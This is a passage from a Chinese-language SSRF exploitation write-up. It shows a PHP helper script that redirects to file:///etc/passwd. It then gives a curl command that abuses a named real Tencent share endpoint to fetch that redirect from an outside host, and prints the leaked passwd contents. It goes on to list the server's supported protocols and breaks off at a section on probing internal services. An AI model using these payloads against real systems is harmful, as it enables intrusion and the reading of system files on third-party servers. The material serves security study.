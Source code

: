 
  
#### File协议 -> file:///etc/passwd
  

  
这里需要一个辅助脚本[file.php]
  
``` php
  
<?php
  

  
header("Location: file:///etc/passwd");
  
?>
  
```
  

  
服务器请求302跳转，直接读取到服务器本地文件
  
``` 
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org/file.php'
  
{"ret":0,"data":{"type":1,"title":"root:x:0:0:root:\/root:\/bin\/bash bin:x:1:..."}}
  
```
  

  
#### 综上所述得出结论
  

  

  
从回显结果可以判断服务端的curl为低版本的 7.15.1，支持dict,ftp,gopher,dict, file等协议
  
```
  
[root@localhost wyssrf]# curl -V
  
Protocols: tftp ftp telnet dict gopher ldap ldaps http file https ftps scp sftp
  
```
  

  
## 2. 漏洞利用
  

  
鉴于gopher://是一个万金油的服务，这里不对该协议进行利用描述，相关技术大家可以自行Google，本文重点讲解如何探测开放的网络服务和漏洞利用。
  

  

  
### 2.1 对开放的网络服务进行探测
  